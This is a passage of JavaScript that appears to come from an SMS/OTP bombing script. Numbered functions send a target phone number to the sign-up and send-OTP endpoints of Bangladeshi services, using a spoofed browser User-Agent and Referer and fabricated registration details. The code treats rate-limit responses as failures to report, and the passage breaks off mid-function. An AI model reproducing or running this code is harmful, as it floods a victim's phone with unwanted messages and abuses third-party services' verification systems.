 
    try {
        const response = await fetch(url, {
            method: 'POST',
           headers: {
           'Content-Type': 'application/json',
           'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
           'Referer': 'https://easy.com.bd/'
           },
           body: JSON.stringify({
           "name": "Shahidul Islam",
           "email": "uyrlhkgxqw@emergentvillage.org",
           "mobile": phone,
           "password": "boss#2022",
           "password_confirmation": "boss#2022",
           "device_key": "9a28ae67c5704e1fcb50a8fc4ghjea4d"
           })
        });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 20 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 20 Error:', error);
        throw error;
    }
}
async function api_21(phone) {
const data = {
    type: "phone",
    phone: phone
           };

 
    try {
        const response = await fetch('https://eshop-api.banglalink.net/api/v1/customer/send-otp', {
            method: 'POST',
           headers: {
           "Content-Type": "application/json",
           "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0"
           },
           body: JSON.stringify(data)
        });

        const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 21 Failure: ${result.error || 'Unknown error'}`);
        }

